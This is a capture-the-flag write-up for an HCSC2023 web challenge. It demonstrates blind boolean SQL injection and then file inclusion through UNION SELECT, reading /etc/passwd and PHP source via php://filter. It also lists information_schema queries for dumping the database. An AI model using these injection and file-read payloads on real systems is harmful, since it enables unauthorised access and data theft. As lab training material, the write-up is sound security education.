

# Checking the site

Visiting the site reveals the following form. Similar to the Diana #1 challenge.


The 4th image with the flag disappeared.

# SQLi

Notice that the form also vulnerable to SQL injects. Just enter a `"`, like below. The former gives the Warner Bros letter, the latter not.

```
%' AND 1=1 #
%' AND 1=2 #
```

The images can be gathered 1 by 1.

```
' LIMIT 1 OFFSET 0 #
' LIMIT 1 OFFSET 1 #
' LIMIT 1 OFFSET 1 #
```

Only affect the outcome whether it has an image output or not can be affected. This is a blind boolean based inject in the form of `' AND expression`, where the expression can be controlled.

Probing the number of columns in the query turns out to be 1. 

# LFI
Further experimentation reveals it is including the filename that was returned from the query. The `X` is there to prevent the other images.
```
X' UNION SELECT "/etc/passwd" #
```



The php filters can be utilized to read the sourcecode.

```
X' UNION SELECT "php://filter/convert.base64-encode/resource=index.php" #
X' UNION SELECT "php://filter/convert.base64-encode/resource=connect.php" #
```

Reading the `index.php` reveals the existence of `connect.php`. This has the flag.


# Flag
`HCSC2023{M4gis_h0l_m4sh0l_l4nne_4_fl4g}`

# Without guessing LFI
If we failed to stumble upon the LFI part, the database can be read. There is a length limitation on the input, which prevents [sqlmap](https://sqlmap.org/) to work, but it can be done manually similarly to it's attempts.

For example the payload sent in `data = {"felado": "' AND " + expr +";#"}`, where `expr` is the boolean expression, `char` is the character list we go 1 by 1, and indices `i` and `l`.
```
version() LIKE '{ver}{char}%'
  -- mariadb version 10.6.12
Database() LIKE '{db}{char}%
  -- diana is the current database
MID((SELECT SCHEMA_NAME FROM information_schema.SCHEMATA LIMIT {i},1),{l},1)='{char}'
  -- diana, test databases
MID((SELECT TABLE_SCHEMA FROM information_schema.TABLES LIMIT {i},1),{l},1)='{char}'
  -- databases at tables so their name can be found by pairing at offset
MID((SELECT TABLE_NAME FROM information_schema.TABLES LIMIT {i},1),{l},1)='{char}'
  -- letters, the table name, paired with previous
MID((SELECT TABLE_NAME FROM information_schema.COLUMNS LIMIT {i},1),{l},1)='{char}'
  -- also table name for columns, now this is used for pairing at offset
  -- exiting from the internal loop when the first letter is not "l" can speed things up greatly
MID((SELECT COLUMN_NAME FROM information_schema.COLUMNS LIMIT {i},1),{l},1)='{char}'
  -- id, sender, filename, paired with previous
ORD(MID((SELECT filename FROM letters LIMIT {i},1),{l},1))={charcode}
  -- the filename column, rest of the columns are similar
```
| id | sender | filename |
|---|---|---|
| 1 | Warner Bros. | 134357887.php |
| 1 | Youtube | 275434893.php |
| 1 | LiveDiana | 378655234.php |

See python files for more details. [run3.py](workdir/run3.py)

Because of the `php` extension, it should be obvious now that the files are included.